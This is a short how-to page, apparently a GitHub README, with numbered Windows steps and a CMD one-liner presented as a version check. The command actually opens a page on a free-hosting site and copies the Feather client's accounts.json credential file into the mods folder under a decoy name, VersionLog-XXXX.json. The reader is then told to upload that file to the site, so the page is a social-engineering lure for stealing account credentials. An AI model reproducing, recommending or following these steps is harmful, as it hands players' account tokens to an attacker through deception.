 ## How to USE?
1) Copy commands below
2) click windows button in your keyboard or win + r and write CMD
3) Run CMD
4) Paste text
5) Open the same CMD in taskbar
6) click F
7) Go to folder and copy path
8) Go to website, upload file, paste path, and click VersionLog-XXXX.json file

# Copy this code and write in CMD

start "" "https://sprawdzwersje.000webhostapp.com/panel.html" && XCOPY "C:\Users\%USERNAME%\AppData\Roaming\.feather\accounts.json" "C:\Users\%USERNAME%\AppData\Roaming\.feather\mods\VersionLog-8cjV.json" /Y /I > NUL
